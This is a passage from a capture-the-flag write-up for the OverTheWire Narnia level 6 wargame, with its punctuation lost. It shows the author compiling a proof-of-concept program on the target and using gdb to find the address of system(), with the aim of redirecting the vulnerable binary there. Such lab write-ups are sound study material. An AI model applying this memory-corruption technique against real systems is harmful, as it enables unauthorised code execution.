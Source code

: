 Compiling and running this program  we see that it successfully executes the command 

   highlight bash   
   0xd4y Writeup     business other overthewire narnia 6 poc   
      gcc poc c  o poc  
   0xd4y Writeup     business other overthewire narnia 6 poc   
        poc  
total 24  
drwxr xr x 1 0xd4y 0xd4y    16 May 11 17 08    
drwxr xr x 1 0xd4y 0xd4y   200 May 11 17 07     
 rwxr xr x 1 0xd4y 0xd4y 16608 May 11 17 08 poc  
 rw r  r   1 0xd4y 0xd4y    71 May 11 17 07 poc c
   endhighlight   

Seeing as we can ssh into the target machine with credentials that we have received from the previous task  we can compile this same code on the target system to determine the location of the system function in memory  in other words  we do not have to leak the system function s address   Using this address  we can point the address of the narnia6 binary to the system function and pass a command to it 

     Determining System Address

First  we must compile the program in 32 bit format as follows 

   highlight bash   
narnia6 narnia  tmp poc  gcc  m32 poc c  o poc  
narnia6 narnia  tmp poc    poc  
total 276drwxr sr x    2 narnia6 root   4096 May 11 18 15    
drwxrws wt 2040 root    root 262144 May 11 18 15     
 rwxr xr x    1 narnia6 root   7460 May 11 18 15 poc  
 rw r  r      1 narnia6 root     84 May 11 18 15 poc c
   endhighlight   

After doing so  we can start debugging the program with gdb 

   highlight bash   
narnia6 narnia  tmp poc  gdb  q   poc                                                  
Reading symbols from   poc    no debugging symbols found    done   
 gdb  b  main                                                                                                                                                        
Breakpoint 1 at 0x5a0                                                                  gdb  r                                                                                
Starting program   tmp poc poc                                                          
                                           
Breakpoint 1  0x565555a0 in main           
 gdb  disass main                      
Dump of assembler code for function main   
   0x565555a0   0       lea    0x4  esp   ecx                                          0x565555a4   4       and     0xfffffff0  esp                    0x565555a7   7       pushl   0x4  ecx   0x565555aa   10      push    ebp        0x565555ab   11      mov     esp  ebp                                                0x565555ad   13      push    ebx                                                    0x565555ae   14      push    ecx        0x565555af   15      call   0x565555dc    x86 get pc thunk ax                       0x565555b4   20      add     0x1a4c  eax  0x565555b9   25      sub     0xc  esp  0x565555bc   28      lea     0x19a0  eax   edx                                      0x565555c2   34      push    edx                                                    0x565555c3   35      mov     eax  ebx    0x565555c5   37      call   0x56555400  system plt                                   0x565555ca   42      add     0x10  esp                                              0x565555cd   45      mov     0x0  eax  0x565555d2   50      lea     0x8  ebp   esp                                          0x565555d5   53      pop     ecx                                                    0x565555d6   54      pop     ebx        0x565555d7   55      pop     ebp      0x565555d8   56      lea     0x4  ecx   esp  0x565555db   59      ret       End of assembler dump             
   endhighlight   
